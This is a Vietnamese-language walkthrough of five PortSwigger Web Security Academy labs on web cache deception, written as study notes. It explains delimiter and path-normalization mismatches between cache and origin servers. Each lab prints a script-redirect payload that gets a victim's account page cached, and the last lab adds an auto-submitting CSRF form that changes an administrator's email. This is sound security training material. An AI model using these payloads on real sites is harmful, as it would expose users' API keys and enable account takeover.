 # WEB CACHE DECEPTION

## Exploiting static extension cache rules

### Exploiting path mapping discrepancies
#### 1. Lab: Exploiting path mapping for web cache deception
**Yêu cầu**
To solve the lab, find the API key for the user `carlos`. You can log in to your own account using the following credentials: `wiener:peter`.

>Required Knowlegde
To solve this lab, you'll need to know:
- How regex endpoints map URL paths to resources.
- How to detect and exploit discrepancies in the way the cache and origin server map URL paths.

**Thực hiện**
dang nhap 
![alt text](image.png)

thu thay doi
![alt text](image-1.png)

them tệp tĩnh để kích hoạt cơ chế lưu cache
![alt text](image-2.png)
thu truy cap lai
![alt text](image-3.png)

```
Cache-Control: max-age=30
Age: 13
X-Cache: hit
```
=> Phát hiện được cơ chế lưu cache

craft an exploit
`<script>document.location="https://id.web-security-academy.net/my-account/tmp.js"</script>`

store lại và gửi đến nạn nhân.
![alt text](image-4.png)
Kiểm tra nạn nhân nhận được chưa ?
![alt text](image-5.png)
Thực hiện truy vấn tới cache trên burp `GET /my-account/tmp.js`
![alt text](image-6.png)

**Note**
Dựa vào quan sát thời gian phản hồi mà ta có được những suy đoán về cơ chế lưu cache. Ở bài lab này các đường dẫn tới tệp tĩnh đưa server cache lưu lại (không phải cache trình duyệt). Song cơ chế chuẩn hóa đường dẫn của phía Server lại chuẩn hóa những đường dẫn sai đó về đường dẫn đúng. Sự không ăn khớp giữa 2 bên đã tạo ra lỗ hổng giúp kẻ tấn công truy xuất được thông tin nhạy cảm thông qua lỗ hổng CSRF.


### Exploiting delimiter discrepancies
#### 2. Lab: Exploiting path delimiters for web cache deception
**Yêu cầu**
To solve the lab, find the API key for the user `carlos`. You can log in to your own account using the following credentials: `wiener:peter`.
We have provided a list of possible delimiter characters to help you solve the lab: Web cache deception lab delimiter list.

**Thực hiện**
quan sat goi tin
![alt text](image-7.png)

Kiểm tra delimiters có thể được sử dụng để tạo lỗ hổng trong bài lab này.
![alt text](image-8.png)
tắt url encode để được kết quả chính xác.
![alt text](image-9.png)

Có thể hệ thống này sử JAVA SPRING BOOT. Thử nghiệm lưu lỗ hổng lưu cache.
![alt text](image-10.png)

Craft payload tấn công:
`<script>document.location="https://id.web-security-academy.net/my-account;blablo.js"</script>`

Gui cho nan nhan va quan sat log.
![alt text](image-11.png)

Trich xuat thong tin qua `GET /my-account;blablo.js`
![alt text](image-12.png)

Nan nhan da an vao link -> Truy van de lay thong tin api

**Note**
Mỗi frame work có cách xử lí các kí tự ngắt khác nhau ví dụ trong Java Spring Boot thì sử dụng `;` nhưng cache thì lại không hiểu kí tự này và dựa vào tập lưu nên lưu trữ và xử lí với các tệp tin.
|server| request URL|Normalization|
|----|---|---|
|Origin|/my-account;abc.js|/my-account|
|Cache|/my-account;abc.js/|/my-account;abc.js|


## Exploiting static directory cache rules

### Exploiting normalization by the origin server
#### 3. Lab: Exploiting origin server normalization for web cache deception
**Yêu cầu**
To solve the lab, find the API key for the user `carlos`. You can log in to your own account using the following credentials: `wiener:peter`.

**Thực hiện**
Viec dau tien la xac dinh lo hong.
Dau tien xac dinh sự khác biệt của phân cách. Điều này làm như bài lab số 2.
![alt text](image-14.png)
![alt text](image-15.png)

Tiep theo quan sat goi tin va xac dinh co che chuan hoa duong dan cua server
![alt text](image-13.png)
De y cac goi tin tu duong dan `/resources` đểu được cache xử lí. Dấu hiệu là thông qua header `Cache-Control` và `Age` bên gói tin phản hồi. 
Thay doi goi tin 
![alt text](image-16.png)
![alt text](image-17.png)
Dieu nay chung to rang thong tin nay da duoc luu vao trong cache

Tao payload
`<script>document.location="https://0a0c0065030081db8035128c001d00ca.web-security-academy.net/resources/..%2fmy-account"</script>`

![alt text](image-18.png)
Nhu ta thay thi file da duoc luu vao trong cache.

**Note**
Ở bài lab này việc chuẩn hóa đường dẫn là chìa khóa để có thể khai thác. Một số Cache server không phân biệt được đường dẫn chưa chuẩn hóa hoặc chuẩn hóa chưa hoàn toàn thành đường dẫn đến file. Và lưu trữ nó, tuy nhiên phía bên server thì luôn có bước chuẩn hóa đường dẫn rồi mới truy cập. 

### Exploiting normalization by the cache server
#### 4. Lab: Exploiting cache server normalization for web cache deception
**Yêu cầu**
To solve the lab, find the API key for the user `carlos`. You can log in to your own account using the following credentials: `wiener:peter`.

**Thực hiện**
Theo de bai thi bai nay web cache server se tu dong chuan hoa con phia server thi khong.
Day la goi tin ban dau
![alt text](image-19.png)
Thay doi thanh `GET /resources/css/..%2fcss/labs.css`
![alt text](image-20.png)
Quay lai voi payload dau
![alt text](image-21.png)
=> Dieu nay chung to `/resources/css/..%2fcss/labs.css` duojc web cache hieu la `/resources/css/labs.css` va luu vao cache -> Do do khi truy van nhu ban dau thi lai tra ve nhu anh thu 3. va sau khi het tgian cache thi lai truy cap binh thuong

Trigger Cache. Cache luu thong tin o thu muc `resources`
![alt text](image-22.png)
Tim kiem delimiters phu hop de loi dung co che khac nhau giu server và web cache server
![alt text](image-23.png)
![alt text](image-24.png)

Thử với cả 4 trường hợp thì `%23` hiện thị lưu trữ cache
![alt text](image-25.png)


Craft a response.
`<script>document.location="https://0aeb00220461826182354800004e00b0.web-security-academy.net/my-account%23%2f%2e%2e%2fresources?vcl"</script>`
Gửi cho nạn nhân và theo doi log
![alt text](image-26.png)
Truy cap de lay thong tin của cache nan nhan
![alt text](image-27.png)

**Note**


### Exploiting normalization by the cache server
#### 5. Lab: Exploiting exact-match cache rules for web cache deception
**Yêu cầu**
To solve the lab, change the email address for the user `administrator`. You can log in to your own account using the following credentials: `wiener:peter`.

**Thực hiện**
Bai nay, cache chi luu cac file co dinh như `favicon.ico`. De trigger lo hong web cache. Truoc tien ta can Detecting Normalization By the Cache Server
![alt text](image-28.png)
![alt text](image-29.png)
![alt text](image-30.png)
-> `abc%2f%2e%2e%2ffavicon.ico`. Server không chuẩn hóa còn Cache chuẩn hóa được.
-> Tức đã là phần url trên đã được lưu cache.

`GET my-account%2f%2e%2e%2ffavicon`. Tìm kiếm delimiter để có thể truy cập được `/my-account` nhưng cache server lại lưu vào cache. Kí tự delimiter phù hợp `;`
![alt text](image-31.png)

Tạo payload để lấy thông tin admin
`<script>document.location="https://0a6400de030e97768593d28100420015.web-security-academy.net/my-account;%2f%2e%2e%2ffavicon.ico"</script>`

Truoc khi cache het han ta lay duoc thong tin admin
![alt text](image-32.png)

De thay đoi email cua nan nhan ta can ta 1 payload nhu sau
```
<form class="testForm" name="change-email-form" action="https://0aae002f0480e270c92ee04100ba0094.web-security-academy.net/my-account/change-email" method="POST">
    <input  type="email" name="email" value="hacker@gmail.com">
    <input  type="hidden" name="csrf" value="YbnCi4v5rgT6emKpFjhhwGr7ygWfWNCv">
</form>
<script>
  document.querySelector('.testForm').submit();
</script>
```
luu y ma csrf ta lay duoc thong qua phan hoi cache duoc luu lai cua administrator
**Note**